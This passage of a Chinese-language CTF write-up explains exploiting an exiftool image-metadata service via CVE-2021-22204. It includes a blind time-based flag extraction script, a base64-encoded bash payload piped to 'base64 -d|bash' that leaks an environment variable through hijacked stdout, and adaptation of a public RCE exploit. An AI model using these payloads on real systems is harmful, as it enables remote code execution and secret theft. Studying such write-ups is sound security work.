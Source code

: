 ```python
        payload = (base64.b64encode(payload.encode())).decode()
        exploiter_to_run = f'exiftool -config eval.config image.jpg -eval="{payload}"'
        subprocess.check_call(shlex.split(payload),stdin=subprocess.DEVNULL, stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
        exploitFile = open("image.jpg", "rb")
        before = time.time()
        # make request
        response = r.post(url, files = {"file": exploitFile})
        if time.time()-before > 2:
            flag+=x
            count = count + 1
            print("Retrivied = " + flag)
            break

print(flag)
```

maple师傅用了一个很巧妙的方式：这里的exiftool实际是用pyexiftool这个库来操作的，它会先开一个`stay_open`模式的exiftool process，再通过stdin传入cli flags让exiftool处理，之后再把stdout进行加工处理后返回，理论上这里的stdout输出会必定包含我们rce后想看到的信息（并且是先展示rce内容 再是常规信息），那我们是否可以劫持exiftool进程的标准输出？注意到代码里 即使出错了也会从stdout中抓点信息出来

```python
except ExifToolJSONInvalidError as e:
	os.remove("tmp/"+tmpFileName)
	data = e.stdout
	reg = re.findall('\[(.*?)\]',data, re.S )[0]
	metadata = ast.literal_eval(reg)
	if 0 != len(metadata):
		return render_template(
		'uploaded.html.j2', tags=metadata, image=_encfile.decode() , thumbnail=thumbnail.decode()), 200
	else:
		return jsonify({
			"error": APIError("ExifToolJSONInvalidError Error Occur", str(e)).__dict__,
	}), 400
```

并且看到报错是`ExifToolJSONInvalidError`，也就是说stdout一定是json格式；随便传一个image

![image-20230327221802389](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230327221802389.png)

我们直接修改[rce的脚本](https://github.com/UNICORDev/exploit-CVE-2021-22204/blob/main/exploit-CVE-2021-22204.py)，设置这样的payload

```python
if __name__ == "__main__":
    from base64 import b64encode
    cmd = b"""printf '[{"SourceFile":"%s"}]' "$FLAG" """
    b64 = b64encode(cmd).decode()
    exec = f'echo {b64}|base64 -d|bash'
    command = f"system(\'{exec}\')"
    exploit(command)
```
